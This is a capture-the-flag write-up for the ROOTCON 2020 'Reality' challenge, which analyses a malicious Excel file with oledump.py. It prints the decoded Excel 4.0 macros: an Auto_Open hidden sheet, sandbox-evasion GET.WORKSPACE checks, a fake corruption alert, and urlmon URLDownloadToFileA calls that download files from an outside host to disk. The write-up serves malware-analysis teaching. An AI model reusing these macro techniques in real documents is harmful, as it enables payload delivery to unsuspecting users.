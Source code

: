 ---
layout: menu
title: "Reality Challenge"
description: "You must obtain the hidden secrets in order to see the reality."
header-img: "chals/ctf/2020_ROOTCONEasterEggHunt/screenshots/banner.png"
tags: [ctf, capture-the-flag, challenges, challenge-write-ups, write-ups, writeups, write-up, writeup, rootcon, rootcon easter egg hunt, rootcon-easter-egg-hunt, easter egg hunt, easter-egg-hunt, solutions, 2020, reality, maldoc, ole, object linking and embedding, oledump, oledump.py, excel, xls, hidden column, excel formula, excel functions]
---

:filesdir: /chals/ctf/2020_ROOTCONEasterEggHunt/files/
:imagesdir: ./screenshots/
:stem: latexmath
:page-liquid:
:source-highlighter: rouge

+++<span><h1 style="color:red">Reality Challenge</h1></span>+++

---

== PART 1 : GIVEN FILES

* link:{filesdir}reality.tar.gz[power.tar.gz]
____
[source,shell]
----
$ md5sum reality.tar.gz

  4f494a43e54d1ba0936e58a299f25fc0  reality.tar.gz

$ sha1sum reality.tar.gz

  f74ea01066dc1b1bd25a900def3d7bd1b410f9be  reality.tar.gz

$ gzip -d reality.tar.gz

$ tar xvf reality.tar.gz

  reality/
  reality/readme.txt
  reality/topsecret.xls

----
____

---

== PART 2 : CHALLENGE DESCRIPTION

The file, +++<span style="color:orange">+++`readme.txt`+++</span>+++, reads the following:

____
----
Challenge Description:

        You must obtain the hidden secrets in order to see the reality.
----
____

---

== PART 3 : THE MALDOC

Opening +++<span style="color:orange">+++`topsecret.xls`+++</span>+++ reveals nothing much:

____
image::reality_topsecret.png[topsecret.xls]
____

Microsoft Excel is capable of using +++<span style="color:orange">+++OLE (Object Linking and Embedding)+++</span>+++ which allows you to take objects in a document and place it in other applications or perhaps even itself.

I decided to check if the excel file is using *`Object Linking and Embedding`* using link:https://blog.didierstevens.com/programs/oledump-py/[oledump.py,window=_blank]:

____
[source,shell,subs="verbatim,quotes"]
----
$ python oledump.py -p plugin_biff --pluginoptions "-x" "../topsecret.xls"

  ---omitted---
  0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible
  0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden
  0018     23 LABEL : Cell Value, String Constant - build-in-name 1 Auto_Open
  0006    598 FORMULA : Cell Formula - R50C18 len=576 ptgRefV R500C49154 ptgRefV R501C49154 ptgConcat ---omitted--- ptgRefV R593C49154 ptgConcat ptgAttr ptgRef R50C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R51C18 len=254 ptgRefV R500C49156 ptgRefV R501C49156 ptgConcat ---omitted--- ptgRefV R540C49156 ptgConcat ptgRef R51C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R52C18 len=254 ptgRefV R500C49158 ptgRefV R501C49158 ptgConcat ---omitted--- ptgRefV R540C49158 ptgConcat ptgRef R52C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R53C18 len=224 ptgRefV R500C49160 ptgRefV R501C49160 ptgConcat ---omitted--- ptgRefV R535C49160 ptgConcat ptgRef R53C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R54C18 len=224 ptgRefV R500C49162 ptgRefV R501C49162 ptgConcat ---omitted--- ptgRefV R535C49162 ptgConcat ptgRef R54C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    414 FORMULA : Cell Formula - R55C18 len=392 ptgRefV R500C49164 ptgRefV R501C49164 ptgConcat ---omitted--- ptgRefV R563C49164 ptgConcat ptgRef R55C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    888 FORMULA : Cell Formula - R56C18 len=866 ptgRefV R500C49167 ptgRefV R501C49167 ptgConcat ---omitted--- ptgRefV R642C49167 ptgConcat ptgRef R56C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    108 FORMULA : Cell Formula - R57C18 len=86 ptgRefV R500C49169 ptgRefV R501C49169 ptgConcat ---omitted--- ptgRefV R512C49169 ptgConcat ptgRef R57C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006     37 FORMULA : Cell Formula - R58C18 len=15 ptgStr "calc.exe" ptgFuncVarV args 1 func EXEC (0x006e)
  #0006     37 FORMULA : Cell Formula - R59C18 len=15 ptgStr "Sheet2" ptgBool TRUE ptgFuncVarV args 2 func WORKBOOK.HIDE (0x817f)#
  ---omitted---

----
____

There is a sheet hidden using *`WORKBOOK.HIDE`*:

____
image::reality_sheet2.png[Sheet2]
____

Which has the following Excel functions written vertically with each character placed beside to the right of its ASCII decimal value:

____
[source,shell,subs="verbatim,quotes"]
----
=ALERT("The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt.",2)
=IF(GET.WORKSPACE(13)<770, CLOSE(FALSE),)
=IF(GET.WORKSPACE(14)<381, CLOSE(FALSE),)
=IF(GET.WORKSPACE(19),,CLOSE(FALSE))
=IF(GET.WORKSPACE(42),,CLOSE(FALSE))
=IF(ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1))), ,CLOSE(FALSE))
#=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://easteregg.rootcon.net/AZfzv7ckfbxj2Q6X/GC3Z543PZQL2buV ","c:\Users\Public\flag.txt",0,0)#
=CLOSE(FALSE)
----
____

---

== PART 4 : GETTING THE FLAG

The highlighted function from earlier seems to download a file and then is saved to +++<span style="color:orange">+++c:\Users\Public\flag.txt+++</span>+++ and attempting to download the same file gives you:

____
image:GC3Z543PZQL2buV6.jpg[fake flag]
____

The flag is somewhere else...

Going back to the OLE dump:

____
[source,shell,subs="verbatim,quotes"]
----
$ python oledump.py -p plugin_biff --pluginoptions "-x" "../topsecret.xls"

  ---omitted---
  0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible
  0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden
  0018     23 LABEL : Cell Value, String Constant - build-in-name 1 Auto_Open
  0006    598 #FORMULA# : Cell Formula - R50C18 len=576 ptgRefV #R500C49154# ptgRefV #R501C49154# ptgConcat ---omitted--- ptgRefV #R593C49154# ptgConcat ptgAttr ptgRef #R50C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 #FORMULA# : Cell Formula - R51C18 len=254 ptgRefV #R500C49156# ptgRefV #R501C49156# ptgConcat ---omitted--- ptgRefV #R540C49156# ptgConcat ptgRef #R51C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 #FORMULA# : Cell Formula - R52C18 len=254 ptgRefV #R500C49158# ptgRefV #R501C49158# ptgConcat ---omitted--- ptgRefV #R540C49158# ptgConcat ptgRef #R52C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 #FORMULA# : Cell Formula - R53C18 len=224 ptgRefV #R500C49160# ptgRefV #R501C49160# ptgConcat ---omitted--- ptgRefV #R535C49160# ptgConcat ptgRef #R53C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 #FORMULA# : Cell Formula - R54C18 len=224 ptgRefV #R500C49162# ptgRefV #R501C49162# ptgConcat ---omitted--- ptgRefV #R535C49162# ptgConcat ptgRef #R54C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    414 #FORMULA# : Cell Formula - R55C18 len=392 ptgRefV #R500C49164# ptgRefV #R501C49164# ptgConcat ---omitted--- ptgRefV #R563C49164# ptgConcat ptgRef #R55C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    888 #FORMULA# : Cell Formula - R56C18 len=866 ptgRefV #R500C49167# ptgRefV #R501C49167# ptgConcat ---omitted--- ptgRefV #R642C49167# ptgConcat ptgRef #R56C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    108 #FORMULA# : Cell Formula - R57C18 len=86 ptgRefV #R500C49169# ptgRefV #R501C49169# ptgConcat ---omitted--- ptgRefV #R512C49169# ptgConcat ptgRef #R57C49171# ptgFuncVarV args 2 func FORMULA (0x8060)
  0006     37 FORMULA : Cell Formula - R58C18 len=15 ptgStr "calc.exe" ptgFuncVarV args 1 func EXEC (0x006e)
  0006     37 FORMULA : Cell Formula - R59C18 len=15 ptgStr "Sheet2" ptgBool TRUE ptgFuncVarV args 2 func WORKBOOK.HIDE (0x817f)
  ---omitted---

----
____

It seems that the eight formulas written vertically from earlier are being referenced in +++<span style="color:orange">+++ROWS 50-57+++</span>+++ in +++<span style="color:orange">+++COL 49171+++</span>+++ and the characters starting from +++<span style="color:orange">+++ROW 500+++</span>+++ downward are being concatenated using +++<span style="color:orange">+++ptgConcat+++</span>+++ to build the entire function/formula.

____
[source,shell,subs="verbatim,quotes"]
----
$ python oledump.py -p plugin_biff --pluginoptions "-x" "../topsecret.xls"

  ---omitted---
  0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible
  0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden
  0018     23 LABEL : Cell Value, String Constant - build-in-name 1 Auto_Open
  0006    598 FORMULA : Cell Formula - R50C18 len=576 ptgRefV R500##C49154## ptgRefV R501C49154 ptgConcat ---omitted--- ptgRefV R593C49154 ptgConcat ptgAttr ptgRef R50C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R51C18 len=254 ptgRefV R500##C49156## ptgRefV R501C49156 ptgConcat ---omitted--- ptgRefV R540C49156 ptgConcat ptgRef R51C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R52C18 len=254 ptgRefV R500##C49158## ptgRefV R501C49158 ptgConcat ---omitted--- ptgRefV R540C49158 ptgConcat ptgRef R52C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R53C18 len=224 ptgRefV R500##C49160## ptgRefV R501C49160 ptgConcat ---omitted--- ptgRefV R535C49160 ptgConcat ptgRef R53C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R54C18 len=224 ptgRefV R500##C49162## ptgRefV R501C49162 ptgConcat ---omitted--- ptgRefV R535C49162 ptgConcat ptgRef R54C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    414 FORMULA : Cell Formula - R55C18 len=392 ptgRefV R500##C49164## ptgRefV R501C49164 ptgConcat ---omitted--- ptgRefV R563C49164 ptgConcat ptgRef R55C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    888 FORMULA : Cell Formula - R56C18 len=866 ptgRefV R500##C49167## ptgRefV R501C49167 ptgConcat ---omitted--- ptgRefV R642C49167 ptgConcat ptgRef R56C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    108 FORMULA : Cell Formula - R57C18 len=86 ptgRefV R500##C49169## ptgRefV R501C49169 ptgConcat ---omitted--- ptgRefV R512C49169 ptgConcat ptgRef R57C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006     37 FORMULA : Cell Formula - R58C18 len=15 ptgStr "calc.exe" ptgFuncVarV args 1 func EXEC (0x006e)
  0006     37 FORMULA : Cell Formula - R59C18 len=15 ptgStr "Sheet2" ptgBool TRUE ptgFuncVarV args 2 func WORKBOOK.HIDE (0x817f)
  ---omitted---

----
____

Now, if you consider +++<span style="color:orange">+++COL 49154+++</span>+++ to be +++<span style="color:orange">+++column B in Sheet 2+++</span>+++, then +++<span style="color:orange">+++COL 49156+++</span>+++ should be +++<span style="color:orange">+++column D+++</span>+++, +++<span style="color:orange">+++COL 49158+++</span>+++ should be +++<span style="color:orange">+++column F+++</span>+++, and so on...

____
[source,shell,subs="verbatim,quotes"]
----
$ python oledump.py -p plugin_biff --pluginoptions "-x" "../topsecret.xls"

  ---omitted---
  0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible
  0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden
  0018     23 LABEL : Cell Value, String Constant - build-in-name 1 Auto_Open
  0006    598 FORMULA : Cell Formula - R50C18 len=576 ptgRefV R500C49154 ptgRefV R501C49154 ptgConcat ---omitted--- ptgRefV R593C49154 ptgConcat ptgAttr ptgRef R50C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R51C18 len=254 ptgRefV R500C49156 ptgRefV R501C49156 ptgConcat ---omitted--- ptgRefV R540C49156 ptgConcat ptgRef R51C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    276 FORMULA : Cell Formula - R52C18 len=254 ptgRefV R500C49158 ptgRefV R501C49158 ptgConcat ---omitted--- ptgRefV R540C49158 ptgConcat ptgRef R52C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R53C18 len=224 ptgRefV R500C49160 ptgRefV R501C49160 ptgConcat ---omitted--- ptgRefV R535C49160 ptgConcat ptgRef R53C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    246 FORMULA : Cell Formula - R54C18 len=224 ptgRefV R500C49162 ptgRefV R501C49162 ptgConcat ---omitted--- ptgRefV R535C49162 ptgConcat ptgRef R54C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    414 FORMULA : Cell Formula - R55C18 len=392 ptgRefV R500##C49164## ptgRefV R501C49164 ptgConcat ---omitted--- ptgRefV R563C49164 ptgConcat ptgRef R55C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    888 FORMULA : Cell Formula - R56C18 len=866 ptgRefV R500##C49167## ptgRefV R501C49167 ptgConcat ---omitted--- ptgRefV R642C49167 ptgConcat ptgRef R56C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006    108 FORMULA : Cell Formula - R57C18 len=86 ptgRefV R500C49169 ptgRefV R501C49169 ptgConcat ---omitted--- ptgRefV R512C49169 ptgConcat ptgRef R57C49171 ptgFuncVarV args 2 func FORMULA (0x8060)
  0006     37 FORMULA : Cell Formula - R58C18 len=15 ptgStr "calc.exe" ptgFuncVarV args 1 func EXEC (0x006e)
  0006     37 FORMULA : Cell Formula - R59C18 len=15 ptgStr "Sheet2" ptgBool TRUE ptgFuncVarV args 2 func WORKBOOK.HIDE (0x817f)
  ---omitted---

----
____

The expected columns where the function/formulas are built should be +++<span style="color:orange">+++B -> D -> F -> H -> J -> L -> N -> P+++</span>+++ but as you can see from the dump, +++<span style="color:orange">+++COL 49164+++</span>+++ jumps to +++<span style="color:orange">+++COL 49167+++</span>+++ meaning +++<span style="color:orange">+++column L+++</span>+++ jumped to +++<span style="color:orange">+++column O+++</span>+++ which shouldn't be the case.

If you look at the Excel Sheet, it would reveal that +++<span style="color:orange">+++column N+++</span>+++ is missing and when revealed:

____
image::reality_column_N.png[column N]
____

It shows a new set of numbers which when converted to ASCII:

____
[source,shell,subs="verbatim,quotes"]
----
=CALL("urlmon","URLDownloaToFileA","JJCCJJ",0,"##http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpbTB##","c:\Users\Public\flag.txt",0,0)
----
____

A new download link is found which is also saved to +++<span style="color:orange">+++c:\Users\Public\flag.txt+++</span>+++:

____
[source,shell,subs="verbatim,quotes"]
----
$ cat 36xQCWUDNaJpbTB

  rc_easter{r34l1ty_15_0ft3n__d1s4pp01nt1ng}

----
____

The real flag is revealed after downloading the file!!

---

++++
<div style="width:100%;overflow-x:auto"><h2>FLAG : <strong>rc_easter{r34l1ty_15_0ft3n__d1s4pp01nt1ng}</strong></h2></div>
++++